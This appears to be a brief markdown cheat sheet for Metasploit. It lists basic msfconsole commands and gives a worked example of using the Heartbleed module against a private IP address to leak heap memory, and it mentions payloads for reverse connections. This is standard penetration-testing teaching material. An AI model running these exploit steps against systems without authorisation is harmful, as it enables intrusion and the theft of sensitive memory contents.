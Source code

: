 # [Metasploit](https://www.metasploit.com/)

Metasploit is an exploit development and execution tool. It can also be used to carry out penetration testing tasks such as port scans, service identiofication and post exploitation tasks.

## General commands

```
msfconsole
help
show [something] // (i.e, show payloads, show options)
use [something]
set [option] [value]
exploit
```

## Exploits

Download exploits from Rapid7 based on gathering information on target's services.

### Heartbleed

Get data from the heap memory of a vulnerable machine (accepting and processing new SSL connections). Data depends largely on the timing of when the exploit is performed. Not getting something highly valuable does not equate to a failed exploit.

```
sudo msfdb start
msfconsole
search heartbleed
use auxiliary/scanner/ssl/openssl_heartbleed
# list module options
show options
# set options
set VERBOSE true
set RHOSTS 10.0.0.101
run
```

## Payloads

Some exploits allow for injecting payloads, expanding our attack vectors, i.e. triggering reverse connections.
